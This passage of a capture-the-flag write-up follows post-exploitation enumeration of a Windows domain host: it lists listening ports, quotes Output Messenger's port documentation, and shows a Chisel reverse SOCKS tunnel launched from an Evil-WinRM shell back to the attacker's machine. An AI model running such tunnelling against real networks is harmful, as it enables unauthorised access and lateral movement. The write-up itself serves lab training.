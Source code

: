 ```
  TCP    [::]:49665             [::]:0                 LISTENING        svchost
  TCP    [::]:49666             [::]:0                 LISTENING        svchost
  TCP    [::]:49667             [::]:0                 LISTENING        lsass
  TCP    [::]:49669             [::]:0                 LISTENING        svchost
  TCP    [::]:49682             [::]:0                 LISTENING        lsass
  TCP    [::]:49683             [::]:0                 LISTENING        lsass
  TCP    [::]:49686             [::]:0                 LISTENING        lsass
  TCP    [::]:49701             [::]:0                 LISTENING        services
  TCP    [::]:49714             [::]:0                 LISTENING        dns
  TCP    [::]:49739             [::]:0                 LISTENING        certsrv
  TCP    [::]:49892             [::]:0                 LISTENING        dfsrs
  TCP    [::1]:53               [::]:0                 LISTENING        dns

```

There’s a bunch of ports listening from `OMServerService`, as well as `outputmessenger_httpd`, `outputmessenger_mysqld`, and `OutputMessenger`. The [Output Messenger docs](https://support.outputmessenger.com/connect-to-server-from-internet/) show that the server runs on ports 14121-14124. [This page](https://support.outputmessenger.com/server-install-faq/) says:

> The Ports need to be opened in the Firewall are from 14121 to 14124
>
> **14121 TCP – Application**
>
> **14122 TCP – File Transfer**
>
> **14123 TCP – Web server for Browser Version**
>
> **14124 TCP & UDP – VoIP for Voice/Video/Desktop Sharing**
>
> 14127 to 14129 ports are used internally. (No need to add in Firewall)

#### Tunnel

I’ll upload the latest [Chisel](https://github.com/jpillora/chisel) release for Windows and start the server on my side, connecting to it creating a SOCKS proxy:

```
*Evil-WinRM* PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:1080:socks
c.exe : 2024/09/06 13:30:16 client: Connecting to ws://10.10.14.6:8000
2024/09/06 13:30:16 client: Connected (Latency 16.1869ms)

```

Now I can access the various pages through the tunnel with FoxyProxy set up as:

![image-20240906163921244](/img/image-20240906163921244.png)

Scanning through the open ports, 14123, 14125, and 14126 respond to HTTP.

#### Output Messenger - TCP 14123

Visiting `/` redirects to `/ombro/index.html`, which is an instance of Output Messenger:
